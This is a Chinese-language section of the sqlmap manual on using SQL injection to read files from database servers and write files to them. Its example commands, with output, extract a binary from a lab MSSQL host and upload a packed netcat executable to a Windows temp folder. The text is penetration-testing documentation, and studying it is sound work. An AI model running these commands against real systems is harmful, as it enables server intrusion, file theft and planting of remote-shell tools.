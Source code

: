 # 访问文件系统

## 读取数据库服务器文件系统文件

选项：`--file-read`

当后端 DBMS（Database Management System，数据库管理系统）为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够直接读取底层文件系统中文件的内容。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 Microsoft SQL Server 2005 为目标，获取二进制文件的例子：

```shell
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

## 向数据库服务器的文件系统上传文件

选项：`--file-write` 和 `--file-dest`

当后端 DBMS 为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够向数据库服务器文件系统上传一个本地文件。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 MySQL 为目标，向服务器提交一个经过 UPX 压缩的二进制文件的例子：

```shell
$ file /software/nc.exe.packed
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```
